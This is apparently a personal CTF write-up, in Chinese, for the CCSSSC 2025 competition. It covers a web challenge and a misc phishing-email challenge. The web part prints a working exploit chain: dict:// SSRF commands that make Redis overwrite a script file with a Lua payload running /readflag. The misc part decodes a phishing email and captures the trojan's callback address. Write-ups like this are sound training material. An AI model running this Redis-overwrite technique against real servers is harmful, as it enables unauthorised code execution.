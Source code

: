 ```yaml
---
title: "CCSSSC2025"
date: 2025-01-05
draft: false
description: "软件安全攻防赛 2025"
summary: "软件安全攻防赛 2025 个人WriteUP"
tags: ["writeup", "ctf"]
categories: ["writeup"]
---
```


## WEB

### CachedVisitor

[题目附件](/attachments/ccsssc2025/fishingemail_25da885af63965bf249067b64099c319attachment_20250102090654845.zip)

部分有用的测试：

![可出网证明](/img/posts/ccsssc2025/CachedVisitor-1.png)

![文件读取证明](/img/posts/ccsssc2025/CachedVisitor-2.png)

![dict协议可用证明](/img/posts/ccsssc2025/CachedVisitor-3.png)

容器出网且可读取文件

dict协议可用，可访问redis

分析了一下源代码

```main.lua```从```visit.script```中读取```\##LUA_START##```和```##LUA_END##```之间的内容作为脚本运行

```dockerfile
COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag
```

flag设置了权限无法直接读取

尝试使用redis写visit.script进行RCE

在本地docker编写lua测试可以输出flag

```lua
##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##
```

直接使用redis将lua写入visit.script

```
dict://127.0.0.1:6379/set:payload:"##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##"
dict://127.0.0.1:6379/config:set:dir:/scripts/
dict://127.0.0.1:6379/config:set:dbfilename:visit.script
dict://127.0.0.1:6379/bgsave
```

写入之后随意发送一个请求即可执行我们写入的脚本

> ```dart{dc2e4048-dca7-4fa3-9803-8ee9d785af2b}```

## Misc

### Fishing E-mail

> Bob收到了一份钓鱼邮件，请找出木马的回连地址和端口。 假如回连地址和端口为123.213.123.123:1234，那么敏感信息为MD5(123.213.123.123:1234)，即d9bdd0390849615555d1f75fa854b14f，以Cyberchef的结果为准。

[题目附件](/attachments/ccsssc2025/cachedvisitor_9c546db896fcd97d4c84f7fcf99357a3attachment_20250102085620033.zip)

```yaml
Content-Transfer-Encoding: base64
```

发现编码格式是Base64，我们直接解码查看内容

```
今天是你的24岁生日，祝你生日快乐

<div class="qmbox"><p style="font-family: -apple-system, BlinkMacSystemFont, &quot;PingFang SC&quot;, &quot;Microsoft YaHei&quot;, sans-serif; font-size: 10.5pt; color: rgb(46, 48, 51);">今天是你的24岁生日，祝你生日快乐</p><div xmail-signature=""><xm-signature></xm-signature><p></p></div></div>

生日礼物.zip(BIN)
```

丢CyberChef提取zip发现有密码

```
Date: Mon, 11 Nov 2024 12:54:24 +0800
```

根据生日推测密码```20001111```

成功解压得到exe

在虚拟机中运行后抓包得到反连地址

![抓包结果](/img/posts/ccsssc2025/Fishing_E-mail.png)

> MD5(222.218.218.218:55555)
>
> df3101212c55ea8c417ad799cfc6b509
